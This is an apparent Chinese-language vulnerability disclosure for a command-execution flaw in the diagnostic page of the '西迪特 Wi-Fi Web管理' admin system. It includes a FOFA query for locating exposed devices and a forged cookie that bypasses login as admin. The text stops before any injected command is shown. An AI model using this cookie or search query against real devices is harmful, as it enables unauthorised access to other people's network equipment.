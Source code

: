 # 西迪特 Wi-Fi Web管理 jumpto.php 后台命令执行漏洞

## 漏洞描述

西迪特 Wi-Fi Web管理系统后台过滤不足导致远程命令执行漏洞

## 漏洞影响

```
西迪特 Wi-Fi Web管理
```

## FOFA

```
title=="Wi-Fi Web管理"
```

## 漏洞复现o

登录页面

![image-20220519183944313](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205191841065.png)

通过越权漏洞获取权限，添加Cookie

```
Cookie: timestamp=0; cooLogin=1; cooUser=admin
```

进入后台后，诊断功能点存在命令拼接执行漏洞

![image-20220519184158173](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205191841279.png)